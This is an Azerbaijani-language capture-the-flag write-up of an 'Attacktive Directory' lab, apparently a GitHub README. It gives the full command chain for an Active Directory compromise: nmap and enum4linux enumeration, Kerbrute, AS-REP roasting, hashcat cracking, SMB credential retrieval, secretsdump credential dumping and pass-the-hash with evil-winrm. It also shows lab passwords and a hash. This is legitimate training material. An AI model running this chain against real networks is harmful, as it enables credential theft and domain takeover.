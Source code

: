 # Attacktive Directory CTF

Nmap, cihazda hansı portların açıq olduğunu, hansı xidmətlərin işlədiyini aşkar etmək və hətta hansı əməliyyat sisteminin işlədiyini aşkar etmək üçün illər ərzində təkmilləşdirilmiş nisbətən mürəkkəb bir yardım proqramıdır.

```bash
sudo nmap -sV 10.10.56.170 -T4 -vv
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/50ffca3483cc27315a55a5c892b785a6ac0910aa/img/nmap.png)

* Əvvəlcə Impacket Github repo-nu qutunuza klonlamalı olacaqsınız. Aşağıdakı komanda Impacket-i `/opt/impacket-ə` klonlayacaq:
```bash

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install

```
* Hələ də problem yaşayırsınızsa, aşağıdakı skripti sınaqdan keçirə və bunun işlədiyini yoxlaya bilərsiniz:
```bash
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ 
sudo pip3 install .
sudo python3 setup.py install
```
# Bloodhound və Neo4j quraşdırılması

Bloodhound, Attacktive Directory-ə hücum edərkən istifadə edəcəyimiz başqa bir vasitədir. Alətin xüsusiyyətlərini daha sonra nəzərdən keçirəcəyik, lakin hələlik Apt ilə iki paket quraşdırmalıyıq, bunlar `bloundhound` və `neo4j`. Onu aşağıdakı əmrlə quraşdıra bilərsiniz:

* link: https://www.kali.org/tools/bloodhound/

- Problemlərin aradan qaldırılması (**Troubleshooting**)

Bloodhound və Neo4j quraşdırmaqda probleminiz varsa, aşağıdakı əmri verməyə cəhd edin:
```bash
sudo apt update && apt upgrade
sudo neo4j console

#Yükləmək istədikdə , hər hansı bir problem olsa, onda bu linkə keçid edin:
link: https://www.kali.org/tools/bloodhound/
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/44faca9cb9a8b675093739ebaaa434111eac6768/img/neo.png)

#  Evil-WinRM :
`https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm`

Note : **Evil-WinRM** Windows serverlərinə və iş stansiyalarına **Windows Remote Management (WinRM)** vasitəsilə qoşulmaq üçün istifadə olunan bir alətdir.

```bash
sudo apt install evil-winrm

link : https://www.kali.org/tools/evil-winrm/
```

# Enum4linux:
Enum4linux Windows sistemlərində informasiya toplamaq üçün istifadə olunan bir Linux alətidir. Əsas məqsədi Windows sistemləri haqqında mümkün qədər çox məlumat əldə etməkdir, xüsusilə də Active Directory və ya şəbəkə sınaqları zamanı.

```bash
 enum4linux -a 10.10.56.170 
```
NetBIOS və SMB (Server Message Block) protokolu vasitəsilə məlumat toplamaq:
(139/445)
Sistem adları, domen adları və iş qrupları haqqında məlumat.
Paylaşılan resursların siyahısını çıxarmaq (shared folders).
Aktiv istifadəçilər və qruplar haqqında məlumat.

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/44faca9cb9a8b675093739ebaaa434111eac6768/img/enum4linux.png)

```bash
# nmap scan vasitəsilə default skriptləri yoxladıq
sudo nmap -sCV  10.10.56.170 -T4 -vv  
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/nmap-script.png)

# Kerberos
- Kerberos Active Directory daxilində əsas autentifikasiya xidmətidir. Bu portun açıq olması ilə istifadəçiləri, parolları və hətta parol spreyini kobud güclə tapmaq üçün `Kerbrute` adlı alətdən  istifadə edə bilərik!
1. Kerbrute yuklemek ucun: https://github.com/ropnop/kerbrute/releases
2. Parollar üçün wordlists: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
3. İstifadəçilər üçün wordlists : https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

```bash
kerbrute userenum --dc 10.10.56.170 -d spookysec.local userlist.txt
```

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/kerbrute.png)

**ASREProasting** adlı hücum metodu ilə **Kerberos** sistemindəki bir zəiflikdən sui-istifadə etmək mümkündür. Bu hücum, istifadəçi hesabının **"Ön Doğrulama Tələb Etmir"** (Pre-Authentication Not Required) imtiyazına malik olduğu hallarda baş verir.

Bu nə deməkdir?

- Belə hesablar **Kerberos Bileti (TGT - Ticket Granting Ticket)** tələb etməzdən əvvəl hər hansı bir identifikasiya (məsələn, düzgün parol və ya hər hansı digər təsdiq mexanizmi) təqdim etməyə ehtiyac duymur.
- Bu, hücumçuya həmin hesabın **encrypted bileti**ni əldə edib **offline brute-force hücumu** vasitəsilə parolu açmağa imkan verir.

Bu üsul, xüsusilə zəif və düzgün konfiqurasiya olunmamış Kerberos sistemlərini hədəfləmək üçün istifadə edilir.

_________________________________________________________________________________________________________________________
**Kerbrute** alətindən istifadə edərək sistemdə mövcud olan istifadəçi adlarını müəyyən edib onları bir faylda saxlamışam. Daha sonra isə **Impacket**-in `GetNPUsers.py` skriptindən istifadə edərək, parolsuz **AS-REP Roasting** hücumunu həyata keçirirəm.

Bu proses mənə, hansı istifadəçilərin **Kerberos biletlərini (TGT)** parol təqdim etmədən əldə edə biləcəyimi öyrənməyə imkan verir. Əsas məqsəd, "Ön Doğrulama Tələb Etmir" imtiyazına malik olan hesabları aşkarlamaqdır. Bu cür zəifliklər, düzgün konfiqurasiya olunmamış Active Directory mühitlərində istifadə edilə bilər.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py -dc-ip 10.10.56.170 spookysec.local/ -no-pass -usersfile
enum-useers
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/asrep.png)

# Ümumi hash növləri
link: https://hashcat.net/wiki/doku.php?id=example_hashes

![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/hash-check.png)
```bash
#GetNPUsers.py ilə əldə etdiyimiz hash yeni bir fayla yazırıq,
#ve onu hashcat ilə crack etməyə çalışacağıq.

hashcat -m 18200 yeni-hash passwordlist.txt 

nəticə : management2005
```
![image alt](https://github.com/cyberprogramming1/-Attacktive-Directory-CTF/blob/1561c098ad65e80af3594a5a2f984be38e9cf86f/img/hashcat-result.png)
# SMBClient
SMBClient — SMB (Server Message Block) protokolunu istifadə edərək, şəbəkə üzərindən fayl paylaşımı, çap xidmətləri və digər şəbəkə resurslarına daxil olmaq üçün istifadə olunan bir alətdir

```bash
smbclient -L //10.10.143.217/  -U svc-admin
smbclient  //10.10.143.217/backup -U svc-admin
get backup_credentials.txt


#Bu komanda, base64 ilə kodlaşdırılmış mətni deşifrə edir.
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

![image alt]()
![image alt]()
![image alt]()
![image alt]()

# Credential Dumping: Secretsdump aləti ilə Active Directory-dən istifadəçi məlumatlarını ələ keçirdim.
```bash
secretsdump.py 'spookysec.local/svc-admin:management2005@10.10.143.217'
```
![image alt]()

```bash
secretsdump.py 'spookysec.local/backup:backup2517860@10.10.143.217' 
```
![image alt]()

# Pass the hash with evil-winrm

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.50.82
```
![image alt]()
![image alt]()
![image alt]()
![image alt]()
![image alt]()
